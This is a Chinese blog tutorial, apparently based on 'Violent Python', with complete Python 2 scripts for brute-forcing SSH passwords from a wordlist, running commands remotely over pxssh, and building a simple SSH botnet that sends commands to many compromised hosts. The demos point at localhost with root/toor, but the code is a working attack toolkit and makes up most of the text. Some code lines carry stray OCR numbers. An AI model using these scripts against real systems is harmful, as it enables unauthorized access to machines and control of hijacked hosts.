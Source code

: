 **目录**

[暴力破解SSH口令](#t0)

[SSH远端执行命令](#t1)

[构建僵尸网络](#t2)

* * *

> 环境：[Kali](https://so.csdn.net/so/search?q=Kali&spm=1001.2101.3001.7020) Linux  python 2.7.13

### 暴力破解SSH口令

Pxssh是pexpect库的[ssh](https://so.csdn.net/so/search?q=ssh&spm=1001.2101.3001.7020)专用脚本，他能用预先写好的 login()、logout() 和 prompt() 等函数直接与SSH进行交互 。对于login()函数，如果执行成功则不会抛出异常，将显示消息表示密码已经找到并把表示密码已找到的全局布尔值设置为true，如果异常显示密码被拒绝则返回即可，如果异常显示socket为 "read\_nonblocking" 则可能是SSH服务器被大量的连接刷爆了，可以过会儿再试，如果异常显示pxssh命令提示符提取困难也应该过会儿再试一次。

```
# -*- coding: utf-8 -*-      
"""      
Created on Sat Nov  3 22:01:51 2018      
@author: 小谢      
"""      
from pexpect import pxssh      
import optparse      
import time      
from threading import *       1
maxConnection=5      #设置最大连接数      1
connection_lock=BoundedSemaphore(value=maxConnection)      1
global Found         #密码全局布尔值      1
Found=False              1
global Fails         #失败的次数      1
Fails=0                  1
def connect(host,user,password,release):        1
    try:      1
        s=pxssh.pxssh()   #实例化      2
        s.login(host,user,password)         #登录      2
        print '[+] Password Found：'+password  #如果不抛出异常，说明密码正确      2
        Found=True      2
    except Exception,e:          2
        if 'read_nonblocking' in str(e):     #主机被大量的SSH连接刷爆了      2
            Fails+=1      2
            time.sleep(5)      2
            connect(host,user,password,False)      2
        elif 'synchronize with original prompt' in str(e):      2
            time.sleep(1)      3
            connect(host,user,password,False)      3
    finally:      3
        if release:      3
            connection_lock.release()      #解锁线程      3
def main():      3
    parser=optparse.OptionParser('usage %prog '+'-H <target host> -u <user> -F <password list>')      3
    parser.add_option('-H',dest='Host',type='string',help='target host')      3
    parser.add_option('-F',dest='passwdFile',type='string',help='password file')      3
    parser.add_option('-u',dest='user',type='string',help='the user')      3
    (options,args)=parser.parse_args()      4
    host=options.Host      4
    passwdFile=options.passwdFile      4
    user=options.user      4
    if host==None or passwdFile==None or user==None:      4
        print(parser.usage)      4
        exit(0)      4
    fn=open(passwdFile,'r')         #打开密码文件      4
    lines=fn.readlines()                  4
    for line in lines:      4
        if Found:      5
            print("[*] Exiting: Password Found")      5
            exit(0)      5
        if Fails>5:      5
            print("[!] Exiting: Too Many Socket Timeouts")      5
            exit(0)      5
        connection_lock.acquire()     #锁定线程      5
        password=line.strip("\n")      5
        print("[-] Testing："+str(password))      5
        t=Thread(target=connect,args=(host,user,password,True))  #开启密码爆破线程      5
        t.start()                       #启动线程      6
if __name__=='__main__':      6
    main()
```


![](https://img-blog.csdnimg.cn/20181103225214126.png)

但是这个脚本有一个bug就是，你第一次爆破主机如果有正确密码则会爆出出来，第二次爆破的话就算是有正确密码也不会爆破出来。(自己主机没有这种bug，爆破其他主机会出现这种bug)

### SSH远端执行命令

当我们破解了SSH的口令之后，我们就可以运行命令了。

```
# -*- coding: utf-8 -*-      
"""      
Created on Sat Nov  3 23:37:11 2018      
@author: 小谢      
"""      
from pexpect import pxssh      
def send_command(s,cmd):      
    s.sendline(cmd)   #发送命令给主机      
    s.prompt()        #匹配cmd执行后的下一步操作的命令提示符      1
    print s.before    #输出命令提示符之前的内容      1
def connect(host,user,password):      1
    try:      1
        s=pxssh.pxssh()      1
        s.login(host,user,password)    #登录      1
        return s                       #返回登录的session      1
    except:      1
        print '[-] Error Connecting'   #登录失败      1
        exit(0)                              1
s=connect('127.0.0.1','root','toor')      2
send_command(s,'uname -r')
```


![](https://img-blog.csdnimg.cn/20181103234528459.png)

这个脚本也是有这种bug，第一次可以正确执行命令，第二次就算用户名密码正确，也显示Error Connecting。 (自己主机没有这种bug，爆破其他主机会出现这种bug)

### 构建僵尸网络

既然可以控制一台，那么就可以控制多台，从而可以构建僵尸网络了！ 

我们创建了一个Client()类，为了构造client对象，需要主机名，用户名以及密码。同时，这个类还要包含维持与肉鸡连接所需的方法：connect() 、send\_command() 。Botnet全局数组记录了单个client对象，addClient()方法的输入是主机名，用户和密码并以此实例化一个client对象并将它添加到botnet数组中。botnetCommand()函数只要一个参数即要发布的命令，这函数遍历整个数组，把命令发送到botnet数组中的每个client上。

```
# -*- coding: utf-8 -*-      
"""      
Created on Fri Nov  2 22:41:45 2018      
@author: 小谢      
"""      
from pexpect import pxssh      
class Client:      
    def __init__(self,host,user,password):       #初始化对象      
        self.host=host      1
        self.user=user      1
        self.password=password      1
        self.session=self.connect()      1
    def connect(self):                          #ssh连接      1
        try:      1
            s=pxssh.pxssh()      1
            s.login(self.host,self.user,self.password)      1
            return s      1
        except Exception,e:      1
            print e      2
            print '[-] Error Connecting'      2
    def send_command(self,cmd):                     #发送命令      2
        self.session.sendline(cmd)      2
        self.session.prompt()      2
        return self.session.before      2
def botnetCommand(command):      2
    for client in botNet:      2
        output=client.send_command(command)      2
        print '[*] Output from '+ client.host      2
        print '[+] '+output      3
def addClient(host,user,password):      3
    client=Client(host,user,password)            #实例化对象      3
    botNet.append(client)      3
botNet=[]      3
addClient('127.0.0.1','root','toor')      3
addClient('127.0.0.1','root','toor')      3
addClient('127.0.0.1','root','toor')      3
botnetCommand("uname -a")
```


![](https://img-blog.csdnimg.cn/20181104095558768.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

相关文章：[Python中的Pexpect模块的简单使用](https://blog.csdn.net/qq_36119192/article/details/83627813)

                  [Pexpect模块的使用](https://www.ibm.com/developerworks/cn/linux/l-cn-pexpect2/)